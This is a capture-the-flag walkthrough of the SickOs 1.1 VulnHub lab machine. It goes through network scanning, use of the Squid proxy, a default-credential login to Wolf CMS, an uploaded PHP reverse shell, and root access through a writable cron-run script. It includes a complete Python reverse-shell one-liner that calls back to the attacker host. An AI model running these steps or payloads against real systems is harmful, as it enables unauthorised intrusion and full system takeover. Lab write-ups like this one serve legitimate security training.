 # SickOs: 1.1

## 1.Get VM IP

```text
root㉿kali:~# arp-scan -I eth1 -l
                       
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.229 00:0c:29:25:b7:8a       VMware, Inc.
192.168.127.254 00:50:56:fd:64:8a       VMware, Inc.
```
The IP address is `192.168.127.229`, let's enumerate it.

## 2.Enumeration

```text
root㉿kali:~# nmap -sV -sC -p- -oN fullscan 192.168.127.229

Nmap scan report for 192.168.127.229
Host is up (0.00041s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 00:0C:29:25:B7:8A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port `3128` is for squid proxy and is open, so the system is using some kind of proxy here

and port 8080 is closed, maybe because of proxy.

so we need to proxy our traffic through squid to see if any website is available, go [here](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid) for details.

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229

<h1>
BLEHHH!!!
</h1>
```

yes, there is a website here, let's check for `robots.txt` :

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229/robots.txt

User-agent: *
Disallow: /
Dissalow: /wolfcms
```

the path `wolfcmd` is dissalowed here, i just set my firefox proxy to point to `192.168.127.229:3128` and visited the `/wolfcms` :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d1740ada-f57f-4b86-bed9-010d97eac250)

since this is a cms i quickly checked searchsploit for any exploit :

```text
searchsploit wolf cms  
----------------------------------------------------------------------------------
 Exploit Title                                          |  Path
----------------------------------------------------------------------------------
Wolf CMS - Arbitrary File Upload / Execution            | php/webapps/38000.txt
Wolf CMS 0.6.0b - Multiple Vulnerabilities              | php/webapps/15614.html
Wolf CMS 0.7.5 - Multiple Vulnerabilities               | php/webapps/18545.txt
Wolf CMS 0.8.2 - Arbitrary File Upload                  | php/webapps/36818.php
Wolf CMS 0.8.2 - Arbitrary File Upload (Metasploit)     | php/remote/40004.rb
Wolf CMS 0.8.3.1 - Remote Code Execution (RCE)          | php/webapps/51421.txt
----------------------------------------------------------------------------------
Shellcodes: No Results
```
i looked at one of [them](https://www.exploit-db.com/exploits/38000), and it mentioned a vulnerable URL there (http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/)

just manually visited the url and i was redirected to a login page (i did not know the exact path of admin page but i found it this way)

simply tried `admin:admin` and booom, i was in.

## 3.Gaining Shell

Looking at the result of the searchsploit for RCE [php/webapps/51421.txt](https://www.exploit-db.com/exploits/51421) i created a php reverse shell from pentestmonkey and put it

in `Files` menu and `Create new file` saved it and located it in `/public` :

![shell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/90440763-4b65-4ac5-a76f-18bc7133ef30)

open the `shell.php` and prepare a listener on your kali machine, you will get the shell.

```text
root㉿kali:~# nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.127.128] from (UNKNOWN) [192.168.127.229] 41750
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 22:03:28 up  2:01,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

I navigated to `/var/www` and found a python file which is world writable :

```text
www-data@SickOs:/$ cd /var/www
www-data@SickOs:/var/www$ ls -l
total 16
-rwxrwxrwx 1 root root  319 Sep 19 20:55 connect.py
-rw-r--r-- 1 root root   21 Dec  5  2015 index.php
-rw-r--r-- 1 root root   45 Dec  5  2015 robots.txt
drwxr-xr-x 5 root root 4096 Dec  5  2015 wolfcms
```

and the content of the file is interesting :

```python
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

as it says here that does execute the program `frequently`, i guessed maybe there is a cronjob for it on the system

just check the cronjobs :

```text
www-data@SickOs:/var/www$ ls /etc/cron*
/etc/crontab

/etc/cron.d:
automate  php5

/etc/cron.daily:
apache2  apt       bsdmainutils  logrotate  mlocate  popularity-contest  update-notifier-common
apport   aptitude  dpkg          man-db     passwd   standard

/etc/cron.hourly:

/etc/cron.monthly:

/etc/cron.weekly:
apt-xapian-index  man-db
```

yes, there is a `automate` file in `cron.d` that executes the connect.py

```text
www-data@SickOs:/var/www$ cat /etc/cron.d/automate 

* * * * * root /usr/bin/python /var/www/connect.py
```

start another listener and just paste a python reverse shell in this file :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.127.128",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

wait for a minute and you will get the root shell and find the flag in /root:

```text
root㉿kali:~#nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.229] 41760
# id
id
uid=0(root) gid=0(root) groups=0(root)

# ls /root 
ls /root
a0216ea4d51874464078c618298b1367.txt

# cat /root/a0216ea4d51874464078c618298b1367.txt
cat /root/a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

this is how you can hack this machine :)






